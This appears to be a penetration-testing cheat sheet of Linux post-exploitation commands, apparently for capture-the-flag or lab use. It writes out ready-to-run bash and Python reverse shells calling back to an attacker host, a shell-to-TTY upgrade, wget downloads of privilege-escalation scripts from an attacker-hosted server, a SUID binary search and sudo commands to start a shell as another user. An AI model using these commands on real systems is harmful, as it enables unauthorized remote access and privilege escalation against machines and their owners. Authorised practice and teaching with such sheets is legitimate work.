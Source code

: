 ```sudo -l```

```whoami```

```groups```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


# Searching through files

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


# LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
wget http://10.10.14.6:800/linpeas.sh
```
```
./linpeas.sh > peas.txt
```

# LinEnum

```
wget http://10.10.14.6:800/LinEnum.sh
```
```
./LinEnum -t -r enum.txt
```
# Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


## Run command as specific user
```
sudo -u USER command
```

## Start shell as specific user
```
sudo -u USER bash -i
```
